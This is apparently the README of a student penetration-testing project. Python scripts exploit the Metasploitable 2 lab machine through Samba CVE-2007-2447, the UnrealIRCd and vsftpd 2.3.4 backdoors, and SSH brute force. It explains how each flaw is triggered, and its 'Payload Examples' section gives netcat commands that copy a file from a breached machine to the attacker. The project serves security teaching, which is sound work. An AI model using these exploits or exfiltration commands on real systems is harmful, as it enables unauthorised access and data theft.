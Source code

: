 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/). I have included four python scripts to explore four of the vulnerabilities present on the test environment. Once each script is run (following the proper execution) the user will have full access to the remote system.

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding for learning about system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I have created python scripts to do it instead. Doing this helps to gain a detailed explanation as to what is going on behind each exploit attempt. By viewing the documented python code, the user should have a further understanding of system security.

## System Requirements:
- Metasploitable 2
- Virtualbox 

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol .
- Exploit: If Samba is configured to use the non-default username map script, anyone can send arbitrary commands in disguise as a username to the server. The command will then be run without needing authorization.

### UnrealRCD CVE-2010-2075
- Version: 3.2.8.1 
- Desc: UnrealRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealRCD contains an exploit where it will execute any command send to the service if it begins with the string 'AB'. Ex: AB; [command to run]

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Desc: VSFTP is an FTP server for linux. 
- Exploit: The exploit occurs when a user tries to login with a username that ends with ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any.
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security. Users can prevent brute force attacks by incorporating a proper firewall to filter out ip addresses, using public key authentication, using strong and unqiue passwords, etc....

## Payload Examples:
- After gaining access to the remote system and starting a shell session, the user can manually use netcat to search for a specified file. Here is an example:
 - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
 - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]

# Guide To Testing:
- Samba:
 - Python3 samba.py
 - "<RHOST> <RPORT> <LHOST> <LPORT>"
- SSH:
 - Python3 sshBruteForce.py
 - "<RHOST>"
 - "<RPORT>"
- UnrealRCD:
 - Python3 unrealIRCD.py
 - "<RHOST> <RPORT> <LHOST> <LPORT>"
- VSFTP:
 - Python3 ftpExploit.py
 - "<RHOST> <RPORT> <COMMAND>"